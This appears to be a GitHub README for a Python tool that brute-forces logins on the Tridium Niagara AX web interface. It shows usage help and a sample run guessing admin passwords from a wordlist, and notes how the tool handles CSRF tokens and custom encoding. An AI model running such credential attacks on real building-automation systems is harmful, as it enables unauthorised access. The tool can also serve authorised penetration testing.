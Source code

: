 # Tridium Niagara Password Cracker
By VenomInfoSec


## Purpose
An online password cracker that brute forces passwords for the Tridium Niagara platform.
* Hydra didn't work with the target due to multiple redirects, custom encoding scheme, and CSRF tokens.
* Currently only supports HTTP but the testCreds() method can be modified to support HTTPS since it just uses the requests module

## Help
```
C:\>python NiagaraPswd.py -h
usage: NiagaraPswd.py [-h] -l LIST -u USERNAME -f FAILURE [-r] target

Brute force Tridium Niagara AX Web Login

positional arguments:
  target                The IP or root URL of the Tridium Niagara AX Webpage

optional arguments:
  -h, --help            show this help message and exit
  -l LIST, --list LIST  The path of the wordlist to be used
  -u USERNAME, --username USERNAME
                        The username to try
  -f FAILURE, --failure FAILURE
                        The path of the webpage that illustrates what a failed
                        login attempt is
  -r, --resume          If the last attempt resulted in unexpected program
                        failure, use this option to resume from the last
                        credentail tried
  -s SCHEME, --scheme SCHEME
                        Scheme of base URL, default: http.
```

## Example
```
C:\>python NiagaraPswd.py -l phpbb-rules.txt -u admin -f default.html 127.0.0.1
 [*] Initializing wordlist...

 [-] admin:YeBs2wu992 is incorrect
 [-] admin:avKNwJ2938 is incorrect
 [-] admin:dAGwAKn976 is incorrect
 [-] admin:XeesHfy623 is incorrect
 [-] admin:S8Ydn4l735 is incorrect
 [!] Keyboard Interrupt, saving last tried creds

```
## TODO
- [ ] Add support for HTTPS
- [ ] Add support for threading

